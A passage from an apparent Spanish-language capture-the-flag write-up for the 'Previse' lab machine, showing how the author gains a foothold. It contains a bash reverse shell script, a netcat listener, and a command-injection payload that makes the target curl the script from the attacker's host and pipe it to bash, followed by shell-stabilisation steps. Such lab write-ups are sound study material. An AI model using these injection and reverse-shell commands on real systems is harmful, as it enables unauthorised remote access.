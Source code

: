 El siguiente paso será lograr obtener acceso al sistema. Para ello, crearemos un script en `Bash` llamado `shell.sh` que contendrá la Reverse Shell. Este script lo compartiremos a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En otra terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos la siguiente ejecución de código para que realice un `cURL` hacía nuestro script y se ejecute en una `bash`.

```bash
delim=comma;+curl+10.10.14.2/shell.sh|bash+#
```

<figure><img src="../../.gitbook/assets/5300_vmware_f5CLBV3cZM.png" alt=""><figcaption></figcaption></figure>

Verificamos que logramos obtener acceso al sistema y nos encontramos como el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.104] 51490
bash: cannot set terminal process group (1576): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
www-data@previse:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@previse:/var/www/html$ export TERM=xterm
www-data@previse:/var/www/html$ export SHELL=bash
www-data@previse:/var/www/html$ stty rows 46 columns 230
```
